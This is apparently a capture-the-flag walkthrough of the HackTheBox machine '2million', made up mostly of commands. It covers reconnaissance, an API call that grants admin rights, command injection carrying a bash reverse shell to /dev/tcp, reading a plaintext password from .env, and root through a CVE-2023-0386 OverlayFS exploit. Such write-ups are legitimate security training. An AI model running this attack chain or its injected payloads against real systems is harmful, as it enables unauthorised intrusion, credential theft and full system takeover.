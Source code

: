 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.10.11
nmap -p 22,80 -sCV 10.10.10.11
```

### Host File Entry
```bash
echo "10.10.10.11 2million.htb" | sudo tee -a /etc/hosts
```

### [FFUF – Subdomain Enumeration](HTTP.md)
```bash
ffuf -u http://10.10.10.11 -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Feroxbuster – Directory Brute Force
```bash
feroxbuster -u http://2million.htb
```

---

## 🎟️ Invite Code Challenge

### ROT13 Decode (CLI)
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'
```

### Generate Invite Code
```bash
curl -X POST http://2million.htb/api/v1/invite/generate -s | jq .data.code | xargs echo | base64 -d
```

---

## 🔐 Login & API Enumeration

### Get API Description
```bash
curl -s http://2million.htb/api/v1 | jq .
```

---

## 👮 Admin Privilege Escalation via API

### Gain Admin Privs
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email":"<your_email>", "is_admin":1}' \
-b cookies.txt
```

### Confirm Admin
```bash
curl -s http://2million.htb/api/v1/admin/auth -b cookies.txt
```

---

## 💥 Command Injection (Admin VPN API)

### Basic Test
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"test; id #"}' -b cookies.txt
```

### Reverse Shell
```bash
# Listener
nc -lnvp 443

# Trigger
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"; bash -c \"bash -i >& /dev/tcp/<your_ip>/443 0>&1\" #"}' \
-b cookies.txt
```

---

## 🧑‍💻 Shell as `admin`

### Credential in .env
```bash
cat /var/www/html/.env
# admin : SuperDuperPass123
```

### [SSH](SSH) / su as admin
```bash
su - admin
# or
sshpass -p 'SuperDuperPass123' ssh admin@2million.htb
```

---

## 🧑‍🔬 Privilege Escalation to root

### Kernel Info
```bash
uname -a
cat /etc/lsb-release
```

### Vulnerability: CVE-2023-0386 (OverlayFS)
Exploit repo: https://github.com/xkaneiki/CVE-2023-0386

### Steps
```bash
# Upload & unzip
scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
unzip CVE-2023-0386-main.zip && cd CVE-2023-0386-main

# Build
make all

# Start fuse script in terminal 1
./fuse ./ovlcap/lower ./gc

# Run exploit in terminal 2
./exp
```

If successful:
```bash
whoami
# root
```

---

## 📦 Beyond Root – Decode `thank_you.json`

### Decode Steps (CyberChef or CLI)
1. URL Decode
2. From Hex
3. From Base64
4. XOR with key: `HackTheBox`